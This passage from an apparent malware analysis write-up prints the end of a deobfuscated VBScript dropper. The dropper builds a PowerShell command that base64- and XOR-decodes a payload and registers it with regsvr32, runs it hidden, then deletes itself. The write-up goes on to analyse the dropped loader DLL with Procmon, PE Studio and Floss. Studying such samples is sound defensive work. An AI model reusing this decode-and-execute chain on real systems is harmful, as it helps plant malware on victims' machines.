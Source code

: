 ```
	newTextFile_2.Close()


	Set dll_loading = fileSystem.CreateTextFile(drop_file_bat_path, True)
	nMJNsm.Write("cmd /c powershell $b64text = [System.IO.File]::ReadAllText(""" & drop_file_b64 & """) ; $bytes = [System.Convert]::FromBase64String($b64text); for($i = 0; $i < $bytes.count ; $i++) {$bytes[$i] = $bytes[$i] -bXor """ & xor_key & """}; [System.IO.File]::WriteAllBytes(""" & drop_file_path & """, $bytes) & regsvr32 /s /i:13579ASDFG " & drop_file_path & "")

	
	dll_loading.Close()


	programShell.Run "cmd /c " drop_file_bat_path, 0, True
	selfDel

End Sub
main
```
I tried running the above script in my environment but it failed due to some issues on my end. So I converted this VB script into a powershell script and ran it. I ommited the commands that had the execution part in them like cmd /c and the registry command.
### Dynamic Analysis
Running the VB Script using cscript in cmd. I opened Procmon in side to see what all is being done by script.
![Vb Dropper](https://cdn-images-1.medium.com/v2/resize:fit:800/1*_mErP34gnYSrZJ9QOQQNGQ.png "Vb Dropper")
I removed the auto start feature from the script so that I can manually control the flow of the malware. Let's take a look into the files that are droped. We see that the same files name and path is there that we discussed earlier while deobfuscating. Now let's run the bat file in order to decode the base 64 file. After running the bat file, a file is dropped by the same name and it doesn't have any extension. Let's open the file in PE Studio.

### DLL Analysis
![PE Studio](https://cdn-images-1.medium.com/v2/resize:fit:800/1*MLuCH_7keUZgsQQ0BeV8Sg.png "PE Studio")
*Dropped File is a DLL*
As we can see that the dropped file is a DLL file. We would also know it if we took at the powershell decoding command in which **regsvr32** is used to register DLLs. The dropped DLL has no imports so we know that it is packed or does DLL loading in the memory. 
![Floss](https://cdn-images-1.medium.com/max/800/1*ukZchN3KY0Nf_kdAkoApxg.png "Floss")
Running Floss on the DLL we can see many calls to different Windows API functions. We can put breakpoint on many of these functions and get some more insight into how the stack strings are decrypted. 
- The dropped DLL is actually a loader, and its entry point function is decrypted by AES to obtain another piece of DLL data, and then directly loaded into memory and called the entry point function of that DLL.
- The DLL is started through regsvr32.exe and its exported function DllRegisterServer is also called.This function will call the function at offset 0xB2F0 of the loaded DLL, and this offset value is the location of the DllRegisterServer exported function of the loaded DLL.
